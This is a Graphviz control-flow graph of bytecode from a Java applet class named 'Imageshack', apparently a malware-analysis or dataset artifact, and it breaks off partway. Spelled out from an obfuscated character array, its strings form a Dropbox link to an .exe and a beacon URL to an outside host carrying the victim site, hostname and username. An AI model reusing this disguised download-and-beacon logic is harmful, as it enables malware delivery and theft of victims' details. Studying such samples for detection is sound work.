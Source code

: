 digraph "" {
    "r0 := @this: Imageshack"
    "push 32"
    "r0 := @this: Imageshack"->"push 32";
    "newarray"
    "push 32"->"newarray";
    "store.r $r9"
    "newarray"->"store.r $r9";
    "load.r $r9"
    "store.r $r9"->"load.r $r9";
    "push 0"
    "load.r $r9"->"push 0";
    "push \"a\""
    "push 0"->"push \"a\"";
    "arraywrite.r"
    "push \"a\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 1"
    "load.r $r9"->"push 1";
    "push \"b\""
    "push 1"->"push \"b\"";
    "push \"b\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 2"
    "load.r $r9"->"push 2";
    "push \"c\""
    "push 2"->"push \"c\"";
    "push \"c\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 3"
    "load.r $r9"->"push 3";
    "push \"d\""
    "push 3"->"push \"d\"";
    "push \"d\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 4"
    "load.r $r9"->"push 4";
    "push \"e\""
    "push 4"->"push \"e\"";
    "push \"e\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 5"
    "load.r $r9"->"push 5";
    "push \"f\""
    "push 5"->"push \"f\"";
    "push \"f\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 6"
    "load.r $r9"->"push 6";
    "push \"g\""
    "push 6"->"push \"g\"";
    "push \"g\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 7"
    "load.r $r9"->"push 7";
    "push \"h\""
    "push 7"->"push \"h\"";
    "push \"h\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 8"
    "load.r $r9"->"push 8";
    "push \"i\""
    "push 8"->"push \"i\"";
    "push \"i\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 9"
    "load.r $r9"->"push 9";
    "push \"j\""
    "push 9"->"push \"j\"";
    "push \"j\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 10"
    "load.r $r9"->"push 10";
    "push \"k\""
    "push 10"->"push \"k\"";
    "push \"k\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 11"
    "load.r $r9"->"push 11";
    "push \"l\""
    "push 11"->"push \"l\"";
    "push \"l\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 12"
    "load.r $r9"->"push 12";
    "push \"m\""
    "push 12"->"push \"m\"";
    "push \"m\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 13"
    "load.r $r9"->"push 13";
    "push \"n\""
    "push 13"->"push \"n\"";
    "push \"n\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 14"
    "load.r $r9"->"push 14";
    "push \"o\""
    "push 14"->"push \"o\"";
    "push \"o\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 15"
    "load.r $r9"->"push 15";
    "push \"p\""
    "push 15"->"push \"p\"";
    "push \"p\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 16"
    "load.r $r9"->"push 16";
    "push \"q\""
    "push 16"->"push \"q\"";
    "push \"q\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 17"
    "load.r $r9"->"push 17";
    "push \"r\""
    "push 17"->"push \"r\"";
    "push \"r\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 18"
    "load.r $r9"->"push 18";
    "push \"s\""
    "push 18"->"push \"s\"";
    "push \"s\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 19"
    "load.r $r9"->"push 19";
    "push \"t\""
    "push 19"->"push \"t\"";
    "push \"t\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 20"
    "load.r $r9"->"push 20";
    "push \"u\""
    "push 20"->"push \"u\"";
    "push \"u\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 21"
    "load.r $r9"->"push 21";
    "push \"v\""
    "push 21"->"push \"v\"";
    "push \"v\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 22"
    "load.r $r9"->"push 22";
    "push \"w\""
    "push 22"->"push \"w\"";
    "push \"w\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 23"
    "load.r $r9"->"push 23";
    "push \"x\""
    "push 23"->"push \"x\"";
    "push \"x\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 24"
    "load.r $r9"->"push 24";
    "push \"y\""
    "push 24"->"push \"y\"";
    "push \"y\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 25"
    "load.r $r9"->"push 25";
    "push \"z\""
    "push 25"->"push \"z\"";
    "push \"z\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 26"
    "load.r $r9"->"push 26";
    "push \":\""
    "push 26"->"push \":\"";
    "push \":\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 27"
    "load.r $r9"->"push 27";
    "push \"/\""
    "push 27"->"push \"/\"";
    "push \"/\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 28"
    "load.r $r9"->"push 28";
    "push \".\""
    "push 28"->"push \".\"";
    "push \".\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 29"
    "load.r $r9"->"push 29";
    "push \"=\""
    "push 29"->"push \"=\"";
    "push \"=\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 30"
    "load.r $r9"->"push 30";
    "push \"&\""
    "push 30"->"push \"&\"";
    "push \"&\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r9";
    "push 31"
    "load.r $r9"->"push 31";
    "push \"-\""
    "push 31"->"push \"-\"";
    "push \"-\""->"arraywrite.r";
    "new java.lang.StringBuffer"
    "arraywrite.r"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "push \"http://dl.dropbox.com/u/53668417/44\""
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"push \"http://dl.dropbox.com/u/53668417/44\"";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "push \"http://dl.dropbox.com/u/53668417/44\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 28";
    "arrayread.r"
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 23";
    "push 23"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r1"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r1";
    "load.r r0"
    "store.r r1"->"load.r r0";
    "virtualinvoke <Imageshack: java.net.URL getDocumentBase()>"
    "load.r r0"->"virtualinvoke <Imageshack: java.net.URL getDocumentBase()>";
    "virtualinvoke <java.net.URL: java.lang.String toString()>"
    "virtualinvoke <Imageshack: java.net.URL getDocumentBase()>"->"virtualinvoke <java.net.URL: java.lang.String toString()>";
    "store.r r0"
    "virtualinvoke <java.net.URL: java.lang.String toString()>"->"store.r r0";
    "staticinvoke <java.net.InetAddress: java.net.InetAddress getLocalHost()>"
    "store.r r0"->"staticinvoke <java.net.InetAddress: java.net.InetAddress getLocalHost()>";
    "virtualinvoke <java.net.InetAddress: java.lang.String getHostName()>"
    "staticinvoke <java.net.InetAddress: java.net.InetAddress getLocalHost()>"->"virtualinvoke <java.net.InetAddress: java.lang.String getHostName()>";
    "virtualinvoke <java.lang.String: java.lang.String toString()>"
    "virtualinvoke <java.net.InetAddress: java.lang.String getHostName()>"->"virtualinvoke <java.lang.String: java.lang.String toString()>";
    "store.r r4"
    "virtualinvoke <java.lang.String: java.lang.String toString()>"->"store.r r4";
    "push \"os.name\""
    "store.r r4"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toString()>";
    "store.r $r204"
    "virtualinvoke <java.lang.String: java.lang.String toString()>"->"store.r $r204";
    "store.r $r204"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r $r9";
    "load.r $r9"->"push 7";
    "push 7"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 26";
    "push 26"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 27";
    "push 27"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 27";
    "push 27"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 5";
    "push 5"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 23";
    "push 23"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 23";
    "push 23"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 24";
    "push 24"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 5";
    "push 5"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 22";
    "push 22"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 14";
    "push 14"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 27";
    "push 27"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 6";
    "push 6"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 28";
    "push 28"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 7";
    "push 7"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 15";
    "push 15"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuffer: void <init>()>";
    "specialinvoke <java.lang.StringBuffer: void <init>()>"->"load.r $r9";
    "load.r $r9"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 8";
    "push 8"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 19";
    "push 19"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 20";
    "push 20"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 18";
    "push 18"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 13";
    "push 13"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 12";
    "push 12"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "push \"gwas\""
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"push \"gwas\"";
    "push \"gwas\""->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 20";
    "push 20"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 17";
    "push 17"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 11";
    "push 11"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r $r9";
    "load.r $r9"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
